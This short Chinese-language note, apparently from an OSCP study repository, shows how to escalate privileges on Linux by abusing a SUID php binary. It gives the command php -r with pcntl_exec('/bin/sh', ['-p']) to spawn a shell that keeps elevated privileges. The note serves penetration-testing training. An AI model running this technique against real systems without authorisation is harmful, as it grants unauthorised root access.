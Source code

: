 1. 执行如下命令：

```bash
CMD="/bin/sh"
```

2. 再使用 php 执行如下命令即可提权：

```bash
php -r "pcntl_exec('/bin/sh', ['-p']);"
```

实例：

![php](https://github.com/Nongcloud/oscp-Learn/tree/master/Privilege-Escalation/SUID/images/suid-php.png)
